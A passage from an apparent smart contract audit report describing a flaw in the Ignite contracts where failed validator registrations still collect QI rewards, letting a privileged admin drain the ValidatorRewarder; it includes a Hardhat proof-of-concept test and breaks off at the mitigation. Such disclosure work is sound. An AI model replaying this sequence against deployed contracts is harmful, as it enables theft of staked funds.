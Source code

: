 Furthermore, this behavior could be abused by the Zeeve admin to drain `QI` tokens from the `ValidatorRewarder` contract. Assuming interactions are made directly with the deployed contracts to bypass frontend checks, a faulty BLS proof can be provided to `StakingContract::registerNode` – this BLS proof is validated by an off-chain service when the `NewRegistration` event is detected, and `Ignite::releaseLockedTokens` will be called if it is invalid.

While Zeeve is somewhat of a trusted entity, they could very easily and relatively inconspicuously stake with burner user addresses, forcing the failure of BLS proof validation to drain the `ValidatorRewarder` contract due to the behavior of this off-chain logic in conjunction with the incorrect handling of `QI` rewards for failed registrations.

**Impact:** `QI` rewards will be paid to users of failed registrations made via `Ignite::registerWithPrevalidatedQiStake`. If abused by the Zeeve admin, then entire `ValidatorRewarder` contract balance could be drained.

**Proof of Concept:** The following test can be added to `Ignite.test.js` under `describe("Superpools")`:

```javascript
it("earns qi rewards for failed registrations", async function () {
  await validatorRewarder.setTargetApr(1000);
  await ignite.setValidatorRewarder(validatorRewarder.address);
  await grantRole("ROLE_RELEASE_LOCKED_TOKENS", admin.address);

  // AVAX $20, QI $0.01
  const qiStake = hre.ethers.utils.parseEther("200").mul(2_000);
  const qiFee = hre.ethers.utils.parseEther("1").mul(2_000);

  // approve Ignite to spend pre-validated QI (bypassing StakingContract)
  await qi.approve(ignite.address, qiStake.add(qiFee));
  await ignite.registerWithPrevalidatedQiStake(
    admin.address,
    "NodeID-Superpools1",
    "0x" + blsPoP.toString("hex"),
    86400 * 28,
    qiStake.add(qiFee),
  );

  // registration of node fails
  await ignite.releaseLockedTokens("NodeID-Superpools1", true);

  const balanceBefore = await qi.balanceOf(admin.address);
  await ignite.connect(admin).redeemAfterExpiry("NodeID-Superpools1");

  const balanceAfter = await qi.balanceOf(admin.address);

  // stake + rewards are returned to the user
  expect(Number(balanceAfter.sub(balanceBefore))).to.be.greaterThan(Number(qiStake));
});
```

**Recommended Mitigation:** Avoid paying QI rewards to failed registrations by resetting the `qiRewardEligibilityByNodeId` state in `Ignite::releaseLockedTokens`:
